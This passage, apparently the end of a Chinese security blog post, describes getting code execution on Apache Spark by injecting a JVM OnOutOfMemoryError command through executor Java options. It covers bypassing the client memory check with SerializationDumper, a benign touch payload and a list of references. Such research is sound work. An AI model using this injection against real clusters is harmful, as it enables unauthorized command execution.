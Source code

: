 在 [DEF CON Safe Mode - ayoul3 - Only Takes a Spark Popping a Shell on 1000 Nodes](https://www.youtube.com/watch?v=EAzdGo-i8vE)一文中，作者通过传递java 配置选项进行了代码执行。

```
java 配置参数 -XX:OnOutOfMemoryError=touch /tmp/testspark 在JVM 发生内存错误时，会执行后续的命令
通过使用 -Xmx:1m 限制内存为 1m 促使错误发生
```

提交任务携带以下配置选项
```
spark.executor.extraJavaOptions=\"-Xmx:1m -XX:OnOutOfMemoryError=touch /tmp/testspark\"
```

SPARK-submit 客户端限制只能通过 `spark.executor.memory` 设定 内存值，报错

```
Exception in thread "main" java.lang.IllegalArgumentException: Executor memory 1048576 must be at least 471859200. Please increase executor memory using the --executor-memory option or spark.executor.memory in Spark configuration.
```

最后通过使用 `SerializationDumper` 转储和重建为 `javaOpts` 的 `scala.collection.mutable.ArraySeq`, 并添加 `jvm` 参数 `-Xmx:1m`，注意 `SerializationDumper` 还需要做数组自增，和部分handler 的调整

![](/img/spark_bypass_auth/gnome-calculator.png)


## 0x05 参考连接

1. [DEF CON Safe Mode - ayoul3 - Only Takes a Spark Popping a Shell on 1000 Nodes](https://www.youtube.com/watch?v=EAzdGo-i8vE)
2. [Apache Spark RPC协议中的反序列化漏洞分析](https://www.freebuf.com/vuls/194532.html)
3. [Spark Rpc 消息处理](https://zhmin.github.io/2019/07/29/spark-rpc-protocol/)
4. [Spark源码阅读(四)：RPC之Transport传输层](https://masterwangzx.com/2020/09/02/RpcTransport/#bootstrap)
5. [Spark 底层网络模块](http://sharkdtu.com/posts/spark-network.html)
6. [spark 源码分析之十二--Spark RPC剖析之Spark RPC总结](https://www.cnblogs.com/johnny666888/p/11160486.html)
7. [spark2.1.0之源码分析——RPC服务端引导程序TransportServerBootstrap](https://qdmana.com/2020/11/20201112220618627e.html)
8. [spark 官方文档](https://spark.apache.org/security.html)
